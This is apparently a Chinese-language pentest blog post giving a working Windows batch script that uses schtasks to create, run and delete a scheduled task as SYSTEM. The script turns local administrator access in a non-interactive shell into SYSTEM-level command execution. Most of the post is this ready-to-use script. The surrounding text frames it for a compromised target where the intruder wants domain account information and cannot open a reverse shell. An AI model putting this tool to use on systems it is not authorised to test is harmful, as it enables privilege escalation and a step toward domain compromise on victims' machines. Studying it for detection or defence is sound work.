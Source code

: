```yaml
---
title: runassystem bat实现
date: 2017-6-11 00:12
tags: pentest
---
```


该工具仅用作拥有administrator帐户以及非交互环境
交互环境下有多种方式获取system权限 如nircmd.exe psexec wimi sc ...

![2019-07-20-17-08-05](https://wolvez.oss-cn-hangzhou.aliyuncs.com/520e73427ccbf757a633ebd5778ddfe2.png)
![2019-07-20-17-08-16](https://wolvez.oss-cn-hangzhou.aliyuncs.com/f739c3b320977fda83545722615c1629.png)


```bat
@echo off
ver|findstr "5\.[0-9]\.[0-9][0-9]*" >NUL 2>NUL && (echo [-] Not Working for winxp\win2k3 &&goto :EOF)
del /f /q %result_file% >NUL 2>NUL
Rd "%WinDir%\system32\test_permissions" >NUL 2>NUL
Md "%WinDir%\System32\test_permissions" 2>NUL||(Echo.& [-] Echo Run as administrator user. &&goto :EOF)

set comands=%*
if not defined comands (
    echo.
    echo Run as SYSTEM  Account Tool
    echo.
    echo [-] error: The syntax of the command is incorrect.
    echo.
    echo Help:
    echo       %~n0 command 
    goto :EOF
    )

set result_file=%tmp%\command_result.txt

schtasks.exe /create /ru "SYSTEM" /tn "runAsSystem" /sc DAILY /tr "cmd.exe /c chcp 437>NUL 2>NUL&&%comands%>> %result_file%" /F >NUL 2>NUL
schtasks.exe /run   /tn runAsSystem /i >NUL 2>NUL
chcp 437>NUL 2>NUL&& schtasks.exe /query /tn runAsSystem /fo list| findstr /i "Running"  >NUL 2>NUL && (goto :Running ) || ( goto :Ready)

:Ready
type %result_file%
schtasks.exe  /delete /tn runAsSystem /f >NUL 2>NUL
del /f /q %result_file% >NUL 2>NUL
goto :EOF

:Running
TIMEOUT /T 1 >NUL 2>NUL
chcp 437>NUL 2>NUL&& schtasks.exe /query /tn runAsSystem /fo list| findstr /i "Running"  >NUL 2>NUL && (goto :Running ) || ( goto :Ready)
goto :EOF

:EOF
```

场景：
当前为本地administrator 本地帐号想查看域帐号信息(需域帐号权限或system帐号) 但当前**shell**非交互也无法反弹找了几款发现仅支持 **Vista**以下系统**psexec**倒是可以非交互下使用 但是目标系统执行出错,利用wmi也不行
`nircmd.exe elevatecmd runassystem cmd.exe` 非交互环境下不行

所以利用schtasks命令写一个批处理来实现非交互环境下 administrator 转 system用户